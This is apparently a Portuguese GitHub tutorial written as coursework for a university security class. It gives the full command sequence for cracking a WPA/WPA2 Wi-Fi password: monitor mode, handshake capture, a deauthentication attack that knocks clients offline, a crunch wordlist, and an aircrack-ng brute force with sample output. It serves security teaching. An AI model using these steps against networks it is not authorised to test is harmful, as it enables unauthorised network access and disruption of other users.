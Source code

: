 # Tutorial - Wi-Fi Cracking WPA/WPA2 (Brute Force)

## Introdução
Este tutorial tem o propósito de ilustrar, de maneira simplificada, de como ter o acesso de uma rede Wifi protegida com os métodos de criptográfia WPA/WPA2. Este tutorial foi desenvolvido como trabalho final para a mateŕia de Segurança e Auditoria de Sistemas, na Universidade Tecnológica Federal do Paraná (UTFPR-CP). Em um breve resumo, faremos um ataque de força bruta em cima de uma captura de pacotes, obtidos monitorando o tráfego da rede. Esse ataque é realizado com uma lista de possíveis senhas daquela rede Wifi.

__ATENÇÃO: Este tutorial foi realizado para fins educacionais, e não deveser utilizada para atividades ilegais. O autor não é responsabilizado pelo uso indevido do mesmo__

## Pré requisitos

Neste tutorial será necessário que você:
- Esteja usando uma distro linux baseada no debian, de preferência o [Kali linux](https://www.kali.org/).
- Ter o [Aircrack-ng](http://aircrack-ng.org/) e o Crunch instalado em seu computador. Para instalar, use o seguintes comandos:
	Para instalar o Aircrack-ng 
	 ```
	 sudo apt-get install aircrack-ng
	 ```
    Para instalar o Crunch
    ```
    sudo apt-get install crunch
    ```
- Ter uma placa de rede sem fio que suporta o modo monitor. [Aqui](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html) uma lista das placas de redes sem fio que suportam o modo monitor (Normalmente os todos notebooks suportam o modo monitor.)

## Tutorial

### Modo monitor
Primero precisamos listar as interfaces de rede de seu computador, para isso digite o seguinte comando:

```bash
sudo airmon-ng
```
Com isso, aparecerá algo parecido com isto em seu terminal:
```
Interface   	Chipset	        	Driver
wlp3s0	    	Atheros AR9485	    ath9k - [phy0]
```

Caso não liste nada, sua placa de rede não suporta o modo monitor.

No meu caso, o nome da minha interface wireless é `wlp3s0`. No seu caso pode ser diferente, mas para o termino deste tutorial iremos utilizar a `wlp3s0`. Para iniciarmos o modo monitor basta digitar no terminal o seguinte comando:

```
sudo airmon-ng start wlan0
```

Neste momento, poderá dar um erro avisando que alguns processos que estão rodando poderão causar problemas. Para isso, você precisará usar o seguinte comando:

```
sudo airmon-ng check kill
```

Para confirmar se temos o modo monitor iniciado, é só utilizar o seguinte comando no terminal:

```
iwconfig
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:
```
wlp3s0    IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          
lo        no wireless extensions.

enp2s0    no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

### Encontrando seu alvo

Para iniciarmos a escuta da rede, utilizaremos o seguinte comando abaixo:

```bash
sudo airodump-ng mon0
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:

```
 CH  4 ][ Elapsed: 8 s ][ 2017-11-19 00:09                                         
                                                                                                                                                                         
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                         
 EC:4D:47:B3:F5:88  -65       90     3579  346   1  54e  WPA2 CCMP   PSK  MinhaCasa                                                                                    
 A0:F3:C1:BC:9E:2B  -85       67        0    0   1  54e. WPA2 CCMP   PSK  Sadi Isper                                                                                     
                                                                                                                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                               
                                                                                                                                                                          
 (not associated)   8C:FA:BA:E4:A3:69  -80    0 - 1      0        2                                                                                                       
 (not associated)   C0:21:0D:DD:30:DF  -89    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  24:F5:AA:66:5A:54   -1    0e- 0      0     1878                                                                                                       
 EC:4D:47:B3:F5:88  F8:E0:79:C2:DE:17  -40    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  1C:87:2C:93:1C:AC  -53    0e- 0   1101     1716                                                                                                       
 EC:4D:47:B3:F5:88  14:1A:A3:FC:E7:E9  -78    0 - 6      0        1    
```

Como este tutorial foi feito para fins educacionais, a rede que iremos atacar é a que tem ESSID (nome da rede Wifi) é a "MinhaCasa", por motivos de eu ser o dono da rede. Para o próximo passo, precisaremos de duas informações desta etapa, o BSSID (Endereço MAC da rede) e o canal em que está sendo utilizado. No nosso caso, as informações serão as seguinte:
 - BSSID: `EC:4D:47:B3:F5:88`
 - CH (canal): `1`

### Capturando o Handshake

As redes que utiizam criptográfia WPA/WPA2 utilizam o "4-way handshake". O que precisamos saber neste momento é que para a conexão entre access point e cliente,é necessário uma série de quatro pacotes é usada para negociar uma chave criptográfica, que será utilizada para criptografar o processo de autenticação. Coletando estes pacotes, podemos conseguir a senha da rede Wifi. Para começar a captura dos pacotes, utilizaremos os seguintes comandos:
    
```bash
## -c: Canal em que se encontra a rede
## --bssid: Endereço MAC do access point
## -w: Diretório que ficará salvo a captura dos pacotes

sudo airodump-ng -c 1 --bssid EC:4D:47:B3:F5:88 -w . mon0
```
Como as informações estão sendo capturadas no passo anterior, utilizaremos o seguinte comando para extressar a conexão entre o dispositivo e a rede. Faremos este passo em outro terminal.

```bash
## -0 2 : enviará dois pacotes "deauth". (Isso pode derrubar o cliente da rede wifi por alguns instantes)
## -a: Endereço MAC do access point
## -c: O Endereço MAC do dispositivo em específico, que será utilizado para obter o "Handshake". 
## Caso queira mandar para todos os dispositivos da rede, é só não utilizar o argumento -c, como no exemplo abaixo:
sudo aireplay-ng -0 2 -a EC:4D:47:B3:F5:88 mon0
```

Caso conseguirmos o Handshake, irá aparecer no primeiro terminal algo parecido com`WPA handshake: 00:00:00:00:00`.Portanto, podemos parar de capturar os pacotes, apertando `Ctrl+C`. Os pacotes ficaram salvos como nome de `.-01.cap`(o arquivo ficará oculto). Neste tutorial, iremos trocar o nome para 'mypackages.cap'.

### Criando a Wordlist
Na criação de uma wordlist, é interessante que se conheça o alvo atacado, criando assim uma wordlist específica para aquele alvo. Para este tutorial, criaremos uma wordlist que conterá somente números,tendo no total de 8 caracteres de tamanho.
Para criar a wordlist utilizaremos o crunch. O primeiro argumento será o número mínimo de caracteres que queremos nossa senha. O segundo argumento será o número máximo de caracteres que queremos nossa senha. O terceiro argumento será os caracteres que queremos combinar na nossa senha. Sabemos que o número mínimo de caracteres em uma senha WPA2 é de 8 caracteres, portanto criaremos uma wordlist que cobrirá todos os números de 8 caracteres (00000000 até 99999999). Para isso o usaremos o seguinte comando no terminal:

```bash
## -o: nome do arquivo de saída

crunch 8 8 0123456789 -o mywordlist.txt
```

Para wordlist mais elaboradas, digite no terminal `man crunch`.
### Obtendo a senha

Como no passo anterior já criamos uma wordlist para o ataque, utilizaremos o seguinte comando no terminal

```bash
## -a2: Especificando que a rede é WPA2
## -b: Endereço MAC do access point 
## -w: A wordlist criada
aircrack-ng -a2 -b EC:4D:47:B3:F5:88 -w mywordlist.txt mypackages.cap
```

Neste momento, começará o ataque por força bruta nos pacotes capturados. Quando a senha na wordlist for a senha desejada, irá aparecer no terminal algo parecido com isso, informando a senha da rede Wifi:

```
                                 Aircrack-ng 1.2 beta3


                   [00:00:12] 1414 keys tested (1017.96 k/s)


                         KEY FOUND! [ 00001414 ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```
